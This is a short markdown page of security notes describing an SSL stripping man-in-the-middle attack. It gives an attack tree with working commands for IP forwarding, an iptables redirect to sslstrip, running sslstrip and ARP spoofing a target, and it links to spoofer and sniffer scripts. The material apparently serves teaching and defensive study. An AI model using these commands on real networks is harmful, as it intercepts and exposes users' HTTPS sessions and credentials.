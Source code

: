 # SSL Stripping

## Attack tree

```text
1 Strip SSL (AND)
    1.1 Install SSLStrip (AND)
    1.2 Configure attack machine for IP forwarding (echo 1 > /proc/sys/net/ipv4/ip_forward or sysctl -w net.ipv4.ip_forward=1) (AND)
    1.3 Route all HTTP traffic to SSLStrip (iptables –t nat –A PREROUTING -i eth0 –p tcp –dport 80 –j REDIRECT –to-port 54321) (AND)
    1.4 Run SSLStrip (sslstrip –l 54321)
2 Spoof ARP (AND)
    2.1 Install arpspoof (AND)
    2.2 Configure ARP spoofing (arpspoof –i eth0 –t <targetIP> <gatewayIP>)
3 Sniff traffic 
```

## Notes

* SSL stripping downgrades an HTTPS connection to HTTP by intercepting the TLS authentication sent from the application to the user. The adversary sends an unencrypted version of the application’s site to the user while maintaining the secured session with the application. The user’s session is visible to the adversary.
* SSL stripping is one of the most potent [MitM attacks](MitM.md) between a client device and a server because it allows for exploitation of services that people assume to be secure.


## Scripts
* [simple ARP spoofer](https://github.com/tymyrddin/ymrir/tree/master/arp_spoofer)
* [simple packet sniffer](https://github.com/tymyrddin/ymrir/tree/master/packet_sniffer)
